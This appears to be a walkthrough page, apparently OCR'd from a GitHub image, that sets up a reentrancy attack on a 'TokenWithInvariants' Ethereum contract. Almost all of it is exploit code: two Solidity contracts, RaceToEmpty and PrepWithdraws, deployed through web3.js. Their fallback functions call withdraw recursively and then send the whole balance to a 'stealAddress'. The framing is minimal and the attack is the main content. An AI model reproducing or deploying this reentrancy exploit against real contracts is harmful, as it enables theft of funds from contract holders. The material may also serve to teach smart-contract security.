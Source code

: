 Getting ready for our attack run


    // First compile the RaceToEmpty contract (the second part of our attack)

    var r2eSource = '/* The proxy contract is required to declare an interface    that RaceToEmpty understands */ contract TWIProxy {   mapping(address => uint) public balanceOf;   uint public totalSupply;    function withdraw() {   }  }   /*  * This contract is used in conjunction with PrepWithdraws.  * The target of PrepWithdraws should be this contract.  * Once "start" has been called on PrepWithDraws call this  * contract in order to withdraw that many times  * a get the ether value equal to the total number of tokens  * withdrawn.  */ contract RaceToEmpty {   event Log(string msg, uint value);   /* It is important that performAttack is initially false so    * that we can give ether to this contract to deposit into    * TokenWithInvariants contract without invoking logic of    * the default function    */   bool performAttack = false;   uint8 depth = 0;   uint numExtraWithdraws;   /* Fill in with address of TokenWithInvariants contract */   TWIProxy twi;   address stealAddress;    /* Constructor */   function RaceToEmpty(address _twiAddress, address _stealAddress,                          uint _numExtraWithdraws) {     twi = TWIProxy(_twiAddress);     stealAddress = _stealAddress;     numExtraWithdraws   = _numExtraWithdraws;   }    /* Default function. Always run */   function() {     if (performAttack) {       depth = depth + 1;       if (depth <= numExtraWithdraws) {  /* attack again */         Log("Extra withdraw number ", depth);         twi.withdraw();       } else {         Log("Finished", 0);         /* Send all value to stealAddress */         stealAddress.call.value(this.balance)();         performAttack = false; /* turn off attack again*/       }     }   }    function reset() {     performAttack = false;   }    function start() {     depth = 0;     performAttack = true;     Log("First withdraw. Tokens = ", twi.balanceOf(this));     twi.withdraw();   }  }';

    var r2eCompiled = web3.eth.compile.solidity(r2eSource);
    var r2eContract = web3.eth.contract(r2eCompiled.RaceToEmpty.info.abiDefinition);

    var raceToEmpty = r2eContract.new(twi.address, stealy, numExtraWithdraws, { from: stealy, data: r2eCompiled.RaceToEmpty.code, gas: 1000000, gasPrice: 1}, contractNotifier);

Wait for the raceToEmpty contract to be mined

    // Set up logging for raceToEmpty

    var r2eLog = raceToEmpty.Log().watch(function(err, result) {
      var a = result.args;
      if (err) { console.log(err); return; }
      console.log(a.msg, a.value);
    });


    // Now compile the PrepWithdraws contract

    var prepWithdrawsSource = '/* The proxy contract is required to declare an interface    that PrepWithdraws understands */ contract TWIProxy {   event Log(string msg ,address from, address to, uint value);   mapping(address => uint) public balanceOf;   uint public totalSupply;    function transfer(address to, uint value) {   }    function deposit(uint amount) {   }    function withdraw() {   }  }   /*  * This contract is used to modify an instance of the TokenWithInvariants  * contract in such a way that another contract, RaceToEmpty, can  * withdraw multiple times.  *  * numTokens is the number of tokens you wish to replicate  * numExtraWithDraws is the number of extra times you wish to withdraw it  * from the RaceToEmpty contract  */ contract PrepWithdraws {   event Log(string msg, uint value);   /* It is important that performAttack is initially false so    * that we can give ether to this contract to deposit into    * TokenWithInvariants contract without invoking logic of    * the default function    */   bool performAttack = false;   uint8 depth = 0;   uint constant conversion = 1 szabo;   uint numExtraWithdraws = 1;   /* Fill in with address of TokenWithInvariants contract */   TWIProxy twi;   address raceToEmptyAddress;   uint8 numTokens;   uint tokensInWei;    /* Constructor */   function PrepWithdraws(address _twiAddress, address _raceToEmptyAddress,                          uint8 _numTokens, uint _numExtraWithdraws) {     twi = TWIProxy(_twiAddress);     raceToEmptyAddress = _raceToEmptyAddress;     numTokens    = _numTokens;     numExtraWithdraws   = _numExtraWithdraws;     tokensInWei  = numTokens * conversion;   }    /* Default function. Always run */   function() {     if (performAttack) {       depth = depth + 1;       Log("value:", (uint)(this.balance/conversion));       if (depth < numExtraWithdraws) {  /* attack again */         twi.withdraw.value(tokensInWei)();       } else {         Log("Transferring tokens", numTokens);         twi.transfer.value(tokensInWei)(raceToEmptyAddress,numTokens);         performAttack = false; /* turn off attack again*/       }     }   }    function reset() {     performAttack = false;   }    function start() {     depth = 0;     performAttack = true;     /* Contract itself must have some funds to make deposit*/     twi.deposit.value(tokensInWei)(numTokens);     twi.withdraw();   }  }';
